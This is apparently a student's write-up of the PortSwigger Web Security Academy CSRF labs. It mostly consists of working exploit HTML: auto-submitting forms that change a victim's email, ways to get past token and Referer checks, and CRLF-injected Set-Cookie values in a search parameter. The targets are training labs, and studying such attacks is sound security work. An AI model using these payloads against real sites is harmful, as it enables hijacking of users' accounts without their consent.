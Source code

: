 # Cross Site Request Forgery (CSRF)

## CSRF vulnerability with no defenses

https://portswigger.net/web-security/csrf/lab-no-defenses

Overall Structure

```
Fake Client with Cookie
           |
           |
           ∨
Exploit Server with malicious code Access  
           |
           |  [Automatically]
           ∨
Main Server Access to rewrite email
```

So the goal is to set the exploit server such that when the client accesses it, email is changed

Set as body of exploit server as this (taking reference from the `/my-account` page), then test & deliver the exploit to the victim

```html
<!-- Exploit code from here ---------------------------- -->
	<p>Your username is: wiener</p>
	<p>Your email is: wiener@normal-user.net</p>
	<form class="login-form" name="change-email-form" action="https://acfb1f8b1febb025c028ce1b005d0057.web-security-academy.net/my-account/change-email" method="POST">
		<label>Email</label>
		<input required="" type="email" name="a" value="">
		<input type="hidden" name="email" value="pwned@evil-user.net" />
		<button class="button" type="submit"> Update email </button>
	</form>
	<script>
		document.forms[0].submit();
	</script>
<!-- Exploit code ends here ---------------------------- -->
```

![](Pasted%20image%2020220514120116.png)

![](Pasted%20image%2020220514120122.png)

## CSRF where token validation depends on request method


![](Pasted%20image%2020220514121536.png)

The request method is POST. so changing it to GET, injecting our custom payload and uploading it on the exploit server should work.

```html
<div id="account-content">
    <p>Your username is: wiener</p>
    <p>Your email is: wiener@normal-user.net</p>
    <form class="login-form" name="change-email-form" action="https://ac7d1fb01f6f5964c09cb9ca00190095.web-security-academy.net/my-account/change-email" method="GET">
        <label>Email</label>
        <input required="" type="email" name="email" value="">
        <input type="hidden" name="email" value="pwned@evil-user.net" />
        <input required="" type="hidden" name="csrf" value="PebMbRdqcsvMdZQSxtJtRr8VRiNbqjJ8">
        <button class="button" type="submit"> Update email </button>
    </form>
    <script>
        document.forms[0].submit();
    </script>
</div>
```

![](Pasted%20image%2020220514121934.png)


```html
<div id="account-content">
    <p>Your username is: wiener</p>
    <p>Your email is: wiener@normal-user.net</p>
    <form class="login-form" name="change-email-form" action="https://ac1c1f341f6b83b2c0fe382500b50027.web-security-academy.net/my-account/change-email" method="GET">
        <label>Email</label>
        <input required="" type="email" name="email" value="">
        <input type="hidden" name="email" value="pwned@evil-user.net" />
        <input required="" type="hidden" name="csrf" value="PebMbRdqcsvMdZQSxtJtRr8VRiNbqjJ8">
        <button class="button" type="submit"> Update email </button>
    </form>
    <script>
        document.forms[0].submit();
    </script>
</div>
```

## CSRF where token validation depends on token being present

Just remove the token
```html
<div id="account-content">
    <p>Your username is: wiener</p>
    <p>Your email is: wiener@normal-user.net</p>
    <form class="login-form" name="change-email-form" action="https://ac1c1f341f6b83b2c0fe382500b50027.web-security-academy.net/my-account/change-email" method="POST">
        <label>Email</label>
        <input required="" type="email" name="email" value="">
        <input type="hidden" name="email" value="pwned@evil-user.net" />
        <!--<input required="" type="hidden" name="csrf" value="">-->
        <button class="button" type="submit"> Update email </button>
    </form>
    <script>
        document.forms[0].submit();
    </script>
</div>
```

This should work

  
## CSRF where token is not tied to user session
https://portswigger.net/web-security/csrf/lab-token-not-tied-to-user-session

Just login, inspect element to get the value of the csrf token (from the csrf input), and put it in the exploit

![](Pasted%20image%2020220514123251.png)

```html
<div id="account-content">
    <p>Your username is: wiener</p>
    <p>Your email is: wiener@normal-user.net</p>
    <form class="login-form" name="change-email-form" action="https://ac511f561e76d771c08d133900a100ff.web-security-academy.net/my-account/change-email" method="POST">
        <label>Email</label>
        <input required="" type="email" name="email" value="">
        <input type="hidden" name="email" value="pwned@evil-user.net" />
        <input required="" type="hidden" name="csrf" value="LHaigSgDqSRPYp4Q0jLhqouUMHEC2Y1Y">
        <button class="button" type="submit"> Update email </button>
    </form>
    <script>
        document.forms[0].submit();
    </script>
</div>
```

## CSRF where token is tied to non-session cookie
https://portswigger.net/web-security/csrf/lab-token-tied-to-non-session-cookie

Used the Writeup

Cookies

![](Pasted%20image%2020220514124122.png)

CSRF Token

![](Pasted%20image%2020220514124441.png)

Just need to add code to set the csrfKey cookie
Need to keep looking through the webpages

```html
<img src="https://0a1400b70354a569c1cd589500e50056.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=4AUNHwEKzhn7G8evThlbMJcxgovvdW4Y" onerror="document.forms[0].submit()">

<div id="account-content">
    <p>Your username is: wiener</p>
    <p>Your email is: wiener@normal-user.net</p>
    <form class="login-form" name="change-email-form" action="https://0a1400b70354a569c1cd589500e50056.web-security-academy.net/my-account/change-email" method="POST">
        <label>Email</label>
        <input required="" type="email" name="email" value="">
        <input type="hidden" name="email" value="pwned@evil-user.net" />
        <input required="" type="hidden" name="csrf" value="kKuaPsSSqgbzIsaKzoT0CJrsJ20xyOum">
        <button class="button" type="submit"> Update email </button>
    </form>
    <script>
        document.forms[0].submit();
    </script>
</div>
```

## CSRF where token is duplicated in cookie
https://portswigger.net/web-security/csrf/lab-token-duplicated-in-cookie

```html
<img src="https://0a57009b03ab3a2dc1d461a400610048.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=AAAABBBBCCCC" onerror="document.forms[0].submit()">

<div id="account-content">
    <form class="login-form" name="change-email-form" action="https://0a57009b03ab3a2dc1d461a400610048.web-security-academy.net/my-account/change-email" method="POST">
        <label>Email</label>
        <input required="" type="email" name="email" value="">
        <input type="hidden" name="email" value="pwned@evil-user.net" />
        <input required="" type="hidden" name="csrf" value="AAAABBBBCCCC">
        <button class="button" type="submit"> Update email </button>
    </form>
    <script>
        document.forms[0].submit();
    </script>
</div>
```

## CSRF where Referer validation depends on header being present
https://portswigger.net/web-security/csrf/lab-referer-validation-depends-on-header-being-present

```html
<meta name="referrer" content="never">

<img src="https://0a7000900402532ec00dad9b00ab007c.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=AAAABBBBCCCC" onerror="document.forms[0].submit()">

<div id="account-content">
    <form class="login-form" name="change-email-form" action="https://0a7000900402532ec00dad9b00ab007c.web-security-academy.net/my-account/change-email" method="POST">
        <label>Email</label>
        <input type="hidden" name="email" value="pwned@evil-user.net" />
        <button class="button" type="submit"> Update email </button>
    </form>
    <script>
        document.forms[0].submit();
    </script>
</div>
```

## CSRF with broken Referer validation
https://portswigger.net/web-security/csrf/lab-referer-validation-broken

Can check [here](https://gist.github.com/hsleonis/0dd421c57eeae61bcd2c0dbe3b887c06) for more on referrer states. But the idea is to send the uri in the referrer

Make the endpoint be `//0a77000f04c15079c0e41fd600040018.web-security-academy.net`

This `/a?0a77000f04c15079c0e41fd600040018.web-security-academy.net/my-account/` works on testing, but looking at the exploit server logs, the server cannot access it (404) due to adding a `/` at the end

```html
<meta name="referrer" content="unsafe-url">
<div id="account-content">
    <form class="login-form"action="https://0a77000f04c15079c0e41fd600040018.web-security-academy.net/my-account/change-email" method="POST">
        <label>Email</label>
        <input type="hidden" name="email" value="pwn@evil-user.net" />
        <button class="button" type="submit"> Update email </button>
    </form>
    <script>
        document.forms[0].submit();
    </script>
</div>
```
